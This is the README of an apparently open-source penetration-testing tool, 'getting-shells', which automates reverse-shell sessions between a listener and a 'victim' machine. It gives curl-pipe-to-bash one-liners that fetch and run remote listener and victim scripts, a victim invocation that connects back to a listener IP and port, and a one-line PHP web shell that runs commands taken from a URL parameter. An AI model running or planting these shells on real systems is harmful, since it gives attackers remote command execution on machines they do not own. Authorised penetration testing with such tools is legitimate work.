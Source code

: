 # getting-shells

Version 1
2021-11-23

## Purpose

Automation tool for listening and starting shells sessions.\
Both, the listener and the victim scripts check for installed resources.\
This tool simplifies the successive trials of starting a shell by selecting options from a menu.

## Quick Execution

Listener:

```
bash -c "$(curl -sS https://raw.githubusercontent.com/davift/getting-shells/main/listener.sh)"
```

![listener_screenshot](https://github.com/davift/getting-shells/blob/main/listener.png)

Victim:

```
bash -c "$(curl -sS https://raw.githubusercontent.com/davift/getting-shells/main/victim.sh)"
```

![victim_screenshot](https://github.com/davift/getting-shells/blob/main/victim.png)

## Installation

No installation is required. This scripts can run out of the box. Just clone the repo:

```
git clone https://github.com/davift/getting-shells.git && cd getting-shells
```

## Execution

```
./listener.sh 443
```

```
./victim.sh 192.168.2.1 443
```

## Additionals

There is no such thing as dependencies to run this tool. It uses the available resources in the system to establish the sessions.\
Additionally, in case you need more resources and have the necessary privileges on the system, the following script will automate the installation of more resources:

```
./additionals.sh
```

**PHP Web Shell**

```
echo '<?php echo shell_exec($_GET["cmd"]); ?>' > cmd.php
```

```
python3 webshell.py
```

## More Information

Read more at https://blog.dftorres.ca/?p=2224.
